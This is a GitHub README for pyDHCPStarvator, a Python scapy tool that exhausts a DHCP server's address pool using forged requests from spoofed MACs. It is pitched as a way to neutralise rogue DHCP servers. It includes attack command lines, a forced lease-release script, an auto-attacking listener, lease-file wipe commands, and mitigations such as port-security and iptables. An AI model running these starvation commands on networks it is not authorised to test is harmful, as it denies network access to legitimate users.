

# pyDHCPStarvator

This is a Python program that can run out an entire DHCP pool.
pyDHCPStarvator was not created for doing network attacks but like a way to exaust a DHCP Rogue pool when security-port and dhcp-snoop features are not available in your wired or wireless network equipments.

### Requirements
````
apt install python3-dev python3-pip
pip3 install scapy-python3
pip3 install netaddr
````
It was migrated from python2 to python3, if you need a runnable python2 version you can use the branch named **python2**.

### Usage
````
usage: starvit.py [-h] -i I -net NET [-start N] [-end N] [-rep N]
                  [-server_id SERVER_ID] [-random_hostnames]
                  [-dst_mac DST_MAC] [-timeout TIMEOUT] [-debug]

optional arguments:
  -h, --help            show this help message and exit
  -i I                  local network interface
  -net NET              /24 subnet, example: -subnet 192.168.27.0/24
  -start N              start ip to request
  -end N                how many request will be done
  -rep N                repetition, sometime packet get lost. Default: 3
                        requests per ip
  -server_id SERVER_ID  DHCP server id, example: 192.168.27.254
  -random_hostnames     random client hostnames, othrewise client's hostname
                        will be: ?
  -dst_mac DST_MAC      Destination DHCP MAC address, default:
                        ff:ff:ff:ff:ff:ff
  -timeout TIMEOUT      seconds to wait between a request and another. example
                        -timeout 0.2
  -debug                print packets
````

##### usage examples
````
# starvation on entire network class
sudo python3 starvit.py -i eth2  -net 192.168.0.0/16  -dst_mac 08:00:27:7c:f9:41 -t 0.05

# starvation on selected ip range
sudo python3 starvit.py -i eth2  -net 192.168.1.0/24 -start 92 -end 100 -dst_mac 08:00:27:7c:f9:41

# just add a server_id as a specific target
sudo python3 starvit.py -net 192.168.1.0/24 -start 10 -end 253 -server_id 192.168.27.254

# specify server by its MAC address and print packets to stdout
sudo python3 starvit.py -net 192.168.1.0/24 -start 80 -end 100 -dst_mac 08:00:27:7C:F9:41 -debug


````

#### example stdout with -debug option
````
Requesting: 192.168.1.98
<Ether  dst=08:00:27:7C:F9:41 src=7b:7b:d1:5a:6b:62 type=IPv4 |<IP  frag=0 proto=udp src=0.0.0.0 dst=255.255.255.255 |<UDP  sport=bootpc dport=bootps |<BOOTP  chaddr=<RandMAC> options='c\x82Sc' |<DHCP  options=[message-type='request' requested_addr=192.168.1.98 end] |>>>>>
.
Sent 1 packets.
````

#### -server_id and -dst_mac
These options focus the attack on a specified endpoint, the DHCP server, by ip or mac address.

If you using a wrong server_id value all the DHCP servers in the l2 broadcast will get something similar in their logs and will not release any ip from their pool.
````
Wed May 16 17:31:35 2018 daemon.info dnsmasq-dhcp[31796]: DHCPNAK(br-lan) 192.168.27.135 30:63:3a:33:38:3a wrong server-ID
````

### Request an IP release
Usefull if you want to force a DHCP server to remove a DHCP lease and then make a client to request an ip again
````
python release_ip.py -src_mac 66:36:3a:37:31:3a -src_ip 192.168.1.93 -dst_mac 08:00:27:7C:F9:41 -dst_ip 192.168.1.1 -debug 1

````

### Send a DHCP discover and listen for event
A listener could also be executed to run a function callback for every packet sniffed.
For example we could send a gratuitous DHCP DISCOVER and listen for DHCP OFFER from rogue DHCP servers.

````
# DHCP DISCOVER
python2 dhcp_discover.py -i eth2

# DHCP event listener
python listener.py -i eth2 [-debug]

Start DHCP listener on interface 'eth2' with filter 'port 68 and port 67'
DHCP OFFER from: 10.21.0.254 [d4:ca:6d:e6:6a:d7]
DHCP OFFER from: 192.168.1.1 [08:00:27:7c:f9:41]
DHCP OFFER from: 192.168.1.1 [08:00:27:7c:f9:41]
````

listener.py can also be runned in starvation attack mode (subprocess).
If a DHCP-OFFER has been sniffed it will automatically starvate that DHCP.
It can also whitelists one or more DHCP and attack only the ROGUE DHCP.


In this example 10.21.0.254 is whitelisted, attack will only run 
against 192.168.1.1.
````
python3 listener.py -i eth2 -starvation-attack -starvation-exclude d4:ca:6d:e6:6a:d7

Start DHCP listener on interface 'eth2' with filter 'port 68 and port 67'
DHCP OFFER from: 10.21.0.254 [d4:ca:6d:e6:6a:d7]
DHCP OFFER from: 192.168.1.1 [08:00:27:7c:f9:41]
starting starvation on 08:00:27:7c:f9:41, 192.168.1.1/24
** python3 starvit.py -i eth2 -net 192.168.1.1/24 -dst_mac 08:00:27:7c:f9:41
DHCP OFFER from: 192.168.1.1 [08:00:27:7c:f9:41]
starting starvation on 08:00:27:7c:f9:41, 192.168.1.1/24
** python3 starvit.py -i eth2 -net 192.168.1.1/24 -dst_mac 08:00:27:7c:f9:41
````

To solicitate DHCP-OFFER we craft DHCP-REQUEST packets
````
python2 dhcp_discover.py -i eth2

#or
nmap --script broadcast-dhcp-discover -e eth0
````


### Results

An OpenWRT DHCP server used as victim.
Some fake client requests was forged with "-random_hostnames" option, some other not.


Server side effects of DHCP Discovery, dhcp_discover.py will always use a fake mac address to run its inspections.

### Hints
````
# tcpdump activity sniffing
tcpdump -i $ifname -n 'port 67 and port 68'

# dhcp discover
nmap --script broadcast-dhcp-discover -e eth0
````
````
# dhcp leases flush
# openwrt
echo "" >  /tmp/dhcp.leases

# debian
echo "" >  /var/lib/dhcp3/dhcp.leases

````
### Attack mitigations
As previosly described a DHCP starvation is commonly prevented with:

- port-security, it permits to lock a network switch's physical port to a restricted number of mac addresses. A dhcp starvation cannot spoof mac addresses in this configuration.
- dnc-snoop, a network switch will reject DHCP packets on port 67 and 68 coming from unauthoritative DHCP servers. This commonly prevents rogue DHCP activities.

If any of these are not available remember that GNU/Linux as router is a good solution. This example could be used with iptables:
````
# 67 server, 68 client
IPTABLES -I OUTPUT -i $LAN_IFACE -p udp --sport 67 -m mac ! --mac-source $YOUR_DHCP_MAC -j DROP
````
Another homemade solution would be to arping every dhcp request src and, if any response come back, remove that DHCP lease from DHCP server (see previous chapter). A FOR loop on every dhcp.leases file's row could execute an arping to check the real existence of a client, if it will be negative: that row should be removed and the dhcp lease released.

### License

DHCPStarvator is made by Giuseppe De Marco and it's released under the GPL 3 license.

### Todo

- configurable MAC randomization (I found Scapy's RandMAC too much recognizable!);
- please open issues/ticket and suggest!

### Resources

- http://scapy.readthedocs.io/en/latest/#sniffing
- https://phaethon.github.io/scapy/api/
- https://blog.jasonantman.com/2010/04/dhcp-debugging-and-handy-tcpdump-filters/
- https://www.whitewinterwolf.com/posts/2017/10/30/dhcp-exploitation-guide/
- https://github.com/foreni-packages/dhcpig

### Special thanks
To [Daniele Albrizio](https://github.com/speedj) for given a name to an idea ;)
